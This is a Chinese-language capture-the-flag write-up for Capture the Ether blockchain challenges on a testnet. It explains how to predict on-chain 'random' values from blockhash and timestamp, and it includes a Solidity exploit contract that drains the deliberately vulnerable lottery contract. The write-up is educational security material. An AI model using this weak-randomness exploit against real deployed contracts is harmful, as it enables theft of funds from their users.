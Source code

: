 * # 区块链官方CTF题 write-up

  官方网站：https://capturetheether.com/challenges/

  做题基本步骤：先下载好metamask插件并装载在浏览器上。登录metamask后点击题目左边的 `Begin Challenge` ，metamask会弹出是否发送消息的对话框，点击确定，之后会自动在Ropsten测试网上加载好ctf环境，之后就可以开始做题。完成题目后点击 `Check Solution` ，同样metamask会弹出是否发送消息的对话框，点击确定，完成验证。

  ## Warmup

  ### [Deploy a contract](https://capturetheether.com/challenges/warmup/deploy/)
  
  - Write-Up
  
  ```
    直接点击 Begin Challenge , metamask 会弹出是否发送消息的对话框，点击确定。
    Begin Challenge 的圈圈转好之后，点击 Check Solution ，同样metamask会弹出是否发送消息的对话框，点击确定。
  ```
  
  ### [Call me](https://capturetheether.com/challenges/warmup/call-me/)
  
  - Write-Up
  
    总结：要想调用一个已经在链上部署的合约的函数，一个比较简单的方法是把源代码复制在remix上，再在deploy中的at address 框中输入已部署的合约地址。必须要这样，remix才可以找到已部署的合约并使用。
  
  ```
    打开 remix.ethereum.org 这个网址，新建一个合约文件，把solidity代码源码复制粘贴在合约文件中。
    在网址左侧找到 compile 栏，并单击右侧的compile按钮，编译该文件。
    在网址左侧找到 deploy 栏，environment下拉菜单中选择Injected Web3。
    在 deploy 栏中找到 at address ，在右侧框内输入题目中给的合约地址，点击 at address，下方会显示合约和合约函数列表，点击 callme 函数。
    完成
  ```
  
  ### [Choose a nickname](https://capturetheether.com/challenges/warmup/nickname/)
  
  ## Lotteries
  
  ### [Guess the number](https://capturetheether.com/challenges/lotteries/guess-the-number/)
  
  ### [Guess the secret number](https://capturetheether.com/challenges/lotteries/guess-the-secret-number/)
  
  ### [Guess the random number](https://capturetheether.com/challenges/lotteries/guess-the-random-number/)
  
  - 题目：
  
    ```c
    pragma solidity ^0.4.21;
    
    contract GuessTheRandomNumberChallenge {
        uint8 answer;
    
        function GuessTheRandomNumberChallenge() public payable {
            require(msg.value == 1 ether);
            answer = uint8(keccak256(block.blockhash(block.number - 1), now));
        }
    
        function isComplete() public view returns (bool) {
            return address(this).balance == 0;
        }
    
        function guess(uint8 n) public payable {
            require(msg.value == 1 ether);
    
            if (n == answer) {
                msg.sender.transfer(2 ether);
            }
        }
    }
    ```
  
  - Write-up
  
    虽然uint8只有255种可能，但是`isComplete()`要求`address(this).balance == 0`。那么一次环境只能`guess`一次。所以我们要在`guess`前，先计算出来answer的值。
  
    >  answer = uint8(keccak256(block.blockhash(block.number - 1), now));
  
    > `block.number` 即本区块的区块号
    >
    > `block.blockhash` 即目标区块号的区块哈希（`block.blockhash` 在 0.4.22 开始不推荐使用，在 0.5.0 已经移除了）
    >
    > `now` 即本区块号的时间戳，其值等于block.timestamp（在 0.7.0, `now` 被移除了）
  
    在`etherscan.io`上搜索合约，以`0xe2d8265D24A4e1045008AEAD2175C46dFA55b834`这个合约地址为例。
  
    ![](https://github.com/Karry-Almond/blog.io/raw/gh-pages/pic/blockchain-ctf-guessrandom1.png)
  
    ![](https://github.com/Karry-Almond/blog.io/raw/gh-pages/pic/blockchain-ctf-guessrandom2.png)
  
     一号是block号，点击进去后可以查看blockhash，也可以切换到别的block号进行查看。得到
  
    > block.blockhash(block.number - 1) = 0xbf411fd6aafdb859366aa052324f4580e735387e4b49cf8d4828433c6b3eeed0
  
    二号是timestamp。也就是构造体中的`now`。得到`Feb-20-2022 07:28:53 AM +UTC`。我们通过随便一个时间戳转换网址，把`UTC时间转换成UNIX时间戳`，得到时间戳`1645342133`。
  
    
  
    接着构造一个合约用于计算`keccak256`，合约如下。执行合约得解。
  
    ```
    pragma solidity ^0.4.21;
    
    contract GuessTheRandomNumberChallenge {
        uint8 public answer;
    
        function guess() public payable returns(uint8){
    		answer = uint8(keccak256(bytes32(0xbf411fd6aafdb859366aa052324f4580e735387e4b49cf8d4828433c6b3eeed0), uint(1645342133)));
    		
    		return answer;
        }
    }
    ```
  
    > 注意：要把`0xbf411fd6aafdb859366aa052324f4580e735387e4b49cf8d4828433c6b3eeed0`转换成`bytes32`，把`1645342133`转换成`uint`格式。
    >
    > 因为`block.blockhash`返回值是`bytes32`，`now`返回值是`uint`
  
    

### [Guess the new number](https://capturetheether.com/challenges/lotteries/guess-the-new-number/)

* 题目

  ```
  pragma solidity ^0.4.21;
  
  contract GuessTheNewNumberChallenge {
      function GuessTheNewNumberChallenge() public payable {
          require(msg.value == 1 ether);
      }
  
      function isComplete() public view returns (bool) {
          return address(this).balance == 0;
      }
  
      function guess(uint8 n) public payable {
          require(msg.value == 1 ether);
          uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now));
  
          if (n == answer) {
              msg.sender.transfer(2 ether);
          }
      }
  }
  ```

  * Write-Up

    该题目的keccak256计算是跟随函数一起执行的，所以无法使用“提前算出answer，手动执行函数”的思路。但是只需要answer的计算和guess中处于同一个区块即可。

    > 思路：创建另外一个合约函数，在新函数内部计算`uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now))`，再调用`guess(uint8 n)`，`answer`作为`guess(uint8 n)`的参数。
    >
    > 即可实现answer的计算和guess(uint8 n)在同一个区块。

    攻击合约如下：

  ```
  pragma solidity ^0.4.21;
  
  contract GuessTheNewNumberChallenge {
  ...
  }
  
  contract exploit{
  
      function deposit() payable returns (uint){
          return msg.value;
      }
      
      function withdraw() payable {
          msg.sender.transfer(this.balance);
      }
  
      function attacker(address addr) {
          require(this.balance >= 1 ether);
  
          uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now));
  
          GuessTheNewNumberChallenge guessContract = GuessTheNewNumberChallenge(addr);
          guessContract.guess.value(1 ether)(answer);
      }
  
      function () payable{
  
      }
  }
  ```

  做的时候思路一开始就正确了，但是实现的时候总是报`transaction revert error`。

  **这里有几个点需要特别注意理解：**

  1. `guessContract.guess.value(1 ether)(answer);`

     .value()是写在函数名和括号之间的。

  2. `function () payable{}`

       **非常重要！！！**
     
      就是因为没有写支持`payable`的`fallback`函数导致一直报`transaction revert error`。

     原因是`guess(uint8)`函数中有一条`msg.sender.transfer(2 ether);`会产生带有以太的回调。如果回调函数（即fallback函数）没有`payable`关键字，那就会报错。
     
     ![](https://github.com/Karry-Almond/blog.io/raw/gh-pages/pic/blockchain-ctf-guessNew.png)
     
  3. `function attacker(address addr) {}`
  
       这个函数没有使用`payable`关键字，但是内部却使用了.value()。换言之，`payable`关键字的含义是“**调用该函数时**是否可以携带以太”。
  
       该函数调用别的函数时，只要别的函数有`payable`关键字就可以。